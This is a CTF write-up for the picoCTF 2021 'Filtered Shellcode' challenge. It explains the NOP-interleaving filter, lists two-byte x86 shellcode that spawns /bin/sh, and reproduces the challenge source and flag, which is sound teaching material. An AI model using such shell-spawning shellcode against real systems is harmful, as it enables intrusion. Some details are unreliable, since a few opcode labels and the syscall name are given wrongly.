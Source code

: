 ```yaml
---
layout: post
title:  "Filtered Shellcode - Pwn"
date:   2021-03-31 12:28:05 +0100
categories: writeups
---
```


```
Challenge: Filtered Shellcode
Author: Tiugi
Description: Shellcode with limited length instructions
CTF: picoCTF2021
Category: Pwn
```


The challenge seems to offer the possibility to execute arbitrary code, but like the title says there is some kind of filter.
First I recover some data from the ELF:

FILE OUTPUT:

fun: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=325e35378982f451f374c7140c5249bb1c52ab18, not stripped

CHECKSEC OUTPUT:

Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments


Then I started the reversing phase using Ghidra to see the disassembled and decompiled version of the ELF.
There are two interesting functions:

main

![main function](https://github.com/pwnthenope/pwnthenope.github.io/blob/main/static/post_images/filtered_shellcode_main.png?raw=true)


execute

![execute function](https://github.com/pwnthenope/pwnthenope.github.io/blob/main/static/post_images/filtered_shellcode_execute.png?raw=true)


The main receives from the user at most 1000 bytes, stopping when receiving a '\n' ("\x0a"), that it passes our input to the execute function which allocate a buffer on the heap with a size two times bigger than payload and fills the newly created buffer following a simple procedure: it takes two bytes from our input, than it puts two '\x90' (nop opcode), then two bytes from our input, and so on until it used all our "code". It then closes the buffer with a '\xc3' (ret opcode). Finally it puts the content of this buffer inside a memory area with execute permission and run the code inside it.

The program indeed execute the code that we give to it, but every instruction with a length greater than 2 will be divided with nops, becoming corrupted.
We must build a shellcode with instructions divided in groups of two bytes, so the first thing is not use the mov instruction with immediate values because is at least 3 bytes long, replacing it with an intelligent use of push and pop.
To open a shell, we can use the syscall to execle which needes: (don't forget that we have a 32-bit ELF)

eax = 0xb                              # EXECLE SYSCALL ID CODE
ebx = POINTER TO THE STRING "/bin/sh"  # THE INSTRUCTION TO BE EXECUTED
ecx = 0
edx = 0


For "eax" we can do:

 6a 4f   push 0xb
 58      pop eax     # two groups of two bytes
 90      nop


For "ecx" and "edx" we can do:

 31 c9   xor ecx,ecx
 89 ca   mov edx,ecx


For "ebx" we have to realize a thing: our original buffer is still on the stack during the execution of our shellcode, so we can put the string "/bin/bash" in the end of the payload and find the offset from the esp (Stack Pointer).
After some "try and error" I built the following payload:

0:  89 e3                   mov    ebx,esp
2:  6a 60                   push   0x60
4:  59                      pop    ecx
5:  90                      nop
6:  01 cb                   add    ebx,ecx
8:  6a 4f                   push   0x4f
a:  59                      pop    ecx
b:  90                      nop
c:  01 cb                   add    ebx,ecx
e:  6a 0b                   push   0xb
10: 58                      pop    eax
11: 90                      nop
12: 31 c9                   xor    ecx,ecx
14: 89 ca                   mov    edx,ecx
16: cd 80                   int    0x80
    /bin/sh\x00

Using a python script I interacted with the remote service and successfully opened a shell. From there a simple "cat flag.txt" was all we need to retrieve the flag:

picoCTF{th4t_w4s_fun_f1ed6f7952ff4071}



Side Note:

With the remote shell I was able to retrieve the original C code of the challenge:

```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

#define MAX_LENGTH 1000

void execute(char *shellcode, size_t length) {
    if (!shellcode || !length) {
        exit(1);
    }
    size_t new_length = length * 2;
    char result[new_length + 1];

    int spot = 0;
    for (int i = 0; i < new_length; i++) {
        if ((i % 4) < 2) {
            result[i] = shellcode[spot++];
        } else {
            result[i] = '\x90';
        }
    }
    // result[new_length] = '\xcc';
    result[new_length] = '\xc3';

    // Execute code
    int (*code)() = (int(*)())result;
    code();
}

int main(int argc, char *argv[]) {
    setbuf(stdout, NULL);
    char buf[MAX_LENGTH];
    size_t length = 0;
    char c = '\0';

    printf("Give me code to run:\n");
    c = fgetc(stdin);
    while ((c != '\n') && (length < MAX_LENGTH)) {
        buf[length] = c;
        c = fgetc(stdin);
        length++;
    }
    if (length % 2) {
        buf[length] = '\x90';
        length++;
    }
    execute(buf, length);
    return 0;
}
```
